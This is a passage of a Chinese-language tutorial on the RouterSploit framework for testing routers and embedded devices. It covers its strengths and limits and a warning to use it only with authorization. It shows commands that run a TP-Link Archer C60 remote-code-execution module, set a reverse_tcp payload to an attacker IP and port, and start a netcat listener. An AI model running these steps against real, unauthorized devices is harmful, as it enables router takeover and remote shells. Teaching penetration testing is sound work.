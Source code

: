 5.  **执行利用**
    ```bash
    rsf (TP-Link Archer C60 RCE) > run
    ```
    如果目标存在漏洞且配置正确，模块将执行攻击。成功后的结果可能是：
    *   获取到一个反向 Shell。
    *   执行一条系统命令并返回结果。
    *   返回一个证明漏洞存在的特定信息。

6.  **使用 Payload（如果需要）**
    如果漏洞利用模块支持 Payload，你可以在执行前设置一个 Payload 来建立更稳固的连接。
    ```bash
    rsf (TP-Link Archer C60 RCE) > show payloads
    rsf (TP-Link Archer C60 RCE) > set payload reverse_tcp
    rsf (TP-Link Archer C60 RCE) > set lhost 192.168.1.100 # 你的攻击机IP
    rsf (TP-Link Archer C60 RCE) > set lport 4444 # 监听端口
    rsf (TP-Link Archer C60 RCE) > run
    ```
    在执行前，别忘了在你的攻击机上使用 `nc -lvnp 4444` 启动监听。

---

### 五、优势与局限性

**优势：**
*   **高度专业化**： 专注于一个容易被忽视但极其重要的攻击面——嵌入式设备。
*   **自动化程度高**： 自动扫描和利用功能大大提高了测试效率。
*   **模块化设计**： 易于社区贡献新的漏洞利用模块。
*   **免费开源**： 任何人都可以免费使用、研究和学习。

**局限性：**
*   **依赖已知漏洞**： 主要针对已公开的 CVE 漏洞，对零日漏洞无能为力。
*   **可能造成设备崩溃**： 某些利用模块具有攻击性，可能导致目标设备重启或变砖。
*   **误报可能**： 自动化工具无法保证 100% 准确，可能存在误报。

---

### 六、法律与道德警告

**非常重要！**

*   **仅用于授权测试**： 你只能在你自己拥有或已获得明确书面授权进行测试的设备上使用 RouterSploit。
*   **遵守法律法规**： 未经授权对他人网络和设备进行扫描和攻击是违法行为，后果严重。
*   **用于学习与研究**： 将其视为一个宝贵的学习工具，用于理解物联网设备的安全风险和提高防御能力。

### 总结

RouterSploit 是网络安全领域，特别是 IoT/嵌入式设备安全评估中一款不可或缺的专业工具。它将分散的漏洞利用代码整合到一个统一的框架下，极大地简化了测试流程。对于安全从业者来说，掌握 RouterSploit 有助于更好地发现和修复网络中的薄弱环节，从而提升整体网络安全性。

我们继续深入探讨RouterSploit的更多细节和高级用法。

七、高级用法与技巧
批量扫描
在实际渗透测试中，我们经常需要扫描整个网段。可以使用scanners/autopwn模块并设置一个IP范围。
